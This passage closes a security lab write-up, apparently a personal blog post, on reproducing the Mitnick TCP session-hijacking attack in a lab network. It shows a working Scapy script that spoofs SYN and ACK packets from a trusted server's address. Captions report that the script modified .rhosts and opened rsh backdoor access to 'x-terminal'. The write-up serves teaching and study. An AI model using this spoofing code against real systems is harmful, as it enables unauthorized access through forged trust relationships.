 ```python
        print("connection termination requested...")

    # If it is a PSH/ACK packet, acknowledge receipt of packet and data
    elif 'P' in pkt[TCP].flags:
        ack_no = pkt[TCP].seq + TCPLen
        send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='A', seq = seq_num, ack = ack_no), verbose=0)
        print("data received...")
       
    # If it is an ACK packet, do nothing
    elif pkt[TCP].flags == 'A':
        pass
        
def main():
    global seq_num
    # Spoof a SYN packet
    send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='S', seq = seq_num), verbose=0)
    # update sequence number to next value
    seq_num += 1
    print("sent SYN packet")

    # Listen for replies and respond
    sniff(iface = 'br-7ef88ab00fc9', filter = myFilter, prn=spoof_rply)


if __name__ == '__main__':
    main()
```

As seen by the screenshot below, the attack is successful.

***modified `.rhosts`***

![mitnick-rhosts](https://github.com/iukadike/iukadike.github.io/assets/58455326/cd3a64bc-9c6c-43fc-9524-5122af04db8a)

When the attacker tries connecting to x-terminal from his machine, he does so successfully.

***rsh from attacker to x-terminal***

![mitnick-backdoor](https://github.com/iukadike/iukadike.github.io/assets/58455326/38d08e61-4ccf-4851-9a1e-62fc973cc7b7)

The packet trace can be oberved in wireshark

***mitnick attack wireshark capture***

![mitnick-wireshark](https://github.com/iukadike/iukadike.github.io/assets/58455326/0e2a02b8-9de9-4210-a41f-de7f6f8623f3)

<br>

_Thanks for reading._